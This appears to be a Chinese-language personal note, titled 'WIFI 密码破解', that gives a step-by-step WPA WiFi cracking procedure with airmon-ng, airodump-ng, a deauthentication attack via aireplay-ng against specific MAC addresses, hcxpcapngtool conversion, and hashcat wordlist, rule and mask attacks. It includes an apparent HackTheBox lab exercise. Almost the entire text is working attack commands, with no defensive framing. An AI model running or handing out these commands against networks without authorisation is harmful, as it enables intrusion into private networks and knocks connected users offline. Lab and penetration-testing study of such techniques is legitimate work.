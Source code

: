 ```yaml
---
title: WIFI 密码破解
date: 2025-08-31
draft: false
tags: 
hidden: false
comments: false
---
```




主要步骤
1、发现wifi
2、握手捕获
3、密码破解
4、访问验证

## 发现wifi

开启监控模式
```
sudo airmon-ng start wlan0
```

airodump 扫描可用wifi
```
sudo airodump-ng wlan0mon -c 1 -w WPA
```

执行取消身份验证攻击
```
sudo aireplay-ng -0 5 -a 80:2D:BF:FE:13:83 -c 8A:00:A9:9B:ED:1A wlan0
```

接下来，使用hashcat进行密码，破解。首先需要转换为hashcat可接受的格式
```
hcxpcapngtool -o hash wpa-Induction.pcap
```

保存后，查看hash文件是否符合预期
```
cat hash
```

使用密码字典进行暴力破解
```
hashcat -m 22000 --force hash /opt/wordlist.txt
```

一旦破解成功，下面的命令将展示破解后的密码和哈希
```
hashcat -m 22000 --force hash /opt/wordlist.txt --show
```

使用One进行破解密码
```
 hashcat -m 22000 hackme_hash /opt/wordlist.txt -r /usr/share/hashcat/rules/
```

使用自定义规则破解密码
```
T1ss$sbBZ3

将第二个字符大写
将s替换为$
将b大写
重复最后3个字符
```


```
?s
?l
?u
?l
?d
?l
?a?a

?s?l?u?l?d?l?a?a


破解名为“HackTheWifi”的Wi-Fi网络。密码长度为8到16个字符，前四个字符为“B4ll”，其余字符为小写ASCII字母。


hashcat -a 3 -m 22000 htb_hash2 --increment --increment-min 8 --increment-max=14 'B4ll?l?l?l?l?l?l?l?l?l?l'
```

Windows下调用GPU破解
```
.\hashcat.exe --backend-ignore-cuda -w 3 -m 22000 -a 6 ..\hash.txt ..\wordlist.txt ?d?d?d?d
```